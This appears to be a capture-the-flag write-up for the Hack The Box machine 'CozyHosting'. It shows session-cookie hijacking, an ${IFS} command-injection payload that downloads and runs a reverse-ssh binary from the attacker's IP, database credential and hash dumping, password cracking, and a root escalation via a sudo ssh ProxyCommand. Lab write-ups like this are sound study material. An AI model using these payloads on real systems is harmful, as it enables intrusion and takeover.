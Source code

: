 # CozyHosting HTB

We scan the ports and nmap reports that *22, 80* are open and 80 is running a http server with the name of *http://cozyhosting.htb*

On the main page there is nothing interesting so we proceed with dir enumeration.

# Dirsearch

```bash
dirsearch -u https://cozyhosting.htb -e*
```

We receive a few things interesting

```bash
http://cozyhosting.htb/login
http://cozyhosting.htb/actuator
http://cozyhosting.htb/actuator/sessions
```

It seems that `/actuator/sessions` has a cookie key on it, so lets try it.

```bash
{
"9F1ED37C18F8EA944FD631F215E03643": "kanderson"
}
```

We open the *Inspect* on the browser adn go to *Storage>Cookies" and replace our cookie with the one from kanderson.

Lets refresh and we find an admin pannel lets take a further look to it.

# Admin Panel

It seems that we can add ourselfs to the target machine, lets try it out.

We get an error but looking at the URL we find something interesting

```bash
http://cozyhosting.htb/admin?error=ssh:%20connect%20to%20host%2010.10.16.3%20port%2022:%20Connection%20timed%20out
```

So it seems that the machine is running something on error lets try something out if we input <ip> and on the username field we add `;whoami` we get this error.


```bash
http://cozyhosting.htb/admin?error=ssh: Could not resolve hostname kali: Temporary failure in name resolution/bin/bash: line 1: id@10.10.16.3: command not found
``` 

So he is working with ssh, lets try this on the username field

> The ${IFS} is the equivalent to a white space character.

```bash
python -m http.server 80

# If we receive a GET request its working

;wget${IFS}10.10.16.3/test;#

# 10.10.11.230 - - [11/Feb/2024 10:59:12] "GET /test HTTP/1.1" 404 -
# So it works lets go for a reverse shell

```
Lets do it with [reverse-ssh](https://github.com/Fahrj/reverse-ssh/releases/download/v1.2.0/reverse-sshx64)

```bash
# Set the listener

./reverse-sshx64 -v -l -p 443

;wget${IFS}http://10.10.16.3/reverse-sshx64${IFS}-P${IFS}/tmp;chmod${IFS}777${IFS}/tmp/reverse-sshx64;/tmp/reverse-sshx64${IFS}-p${IFS}443${IFS}10.10.16.3;#

# One liner
host=10.10.16.3&username=;wget${IFS}http://10.10.16.3/reverse-sshx64${IFS}-P${IFS}/tmp;chmod${IFS}777${IFS}/tmp/reverse-sshx64;/tmp/reverse-sshx64${IFS}-p${IFS}443${IFS}10.10.16.3;#

# Connecting via SSH

ssh 127.0.0.1 -p 8888

#PASSWORD: letmeinbrudipls
```

# Opening file cloudhosting-0.0.1.jar


```bash
#We mount the server 

python3 -m http.server 1111

# On kali we download
wget http://10.10.11.230:1111/cloudhosting-0.0.1.jar

# Install

sudo apt install jd-gui

# Open

jd-gui cloudhosting-0.0.1.jar

# We find this

server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR

# Connect to the DB
psql -h 127.0.0.1 -U postgres

# List Databases

\l

# Use the correct database
\c cozyhosting

# List tables
\dt 
# Lets try this

SELECT * FROM users;

   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

[psql cheatsheet](https://www.timescale.com/learn/postgres-cheat-seet/databases)

Now lets decode those hashes with **hashcat** or **john** and indentify their hashtype

[hash-id](https://github.com/blackploit/hash-identifier.git)

```bash
    ##With john
    john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
    ##With hashcat
    hashcat -m 30600 ./hash.txt /usr/share/wordlists/rockyou.txt
```

After getting the password we make `sudo -l` and we find that josh can run one commando as root `(root) /usr/bin/ssh *`

there is a thing with this, we can use [GTFOBins - Shell](https://gtfobins.github.io/gtfobins/ssh/#sudo)

```bash
ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# And congrats you are runing as root
```